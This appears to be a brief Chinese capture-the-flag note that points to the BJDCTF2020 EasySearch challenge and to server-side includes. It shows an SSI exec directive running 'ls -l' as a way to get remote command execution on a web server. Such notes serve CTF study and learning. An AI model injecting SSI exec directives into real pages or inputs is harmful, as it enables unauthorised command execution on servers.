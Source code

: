 参见 [[[BJDCTF2020]EasySearch]] 和 [服务器端内嵌](https://zh.wikipedia.org/zh-cn/%E6%9C%8D%E5%8A%A1%E5%99%A8%E7%AB%AF%E5%86%85%E5%B5%8C)

总之就是可以利用这个
```
<!--#exec cmd="ls -l" -->
```
来执行命令

#Web #HTTP #SHTML #RCE #Misc #shell 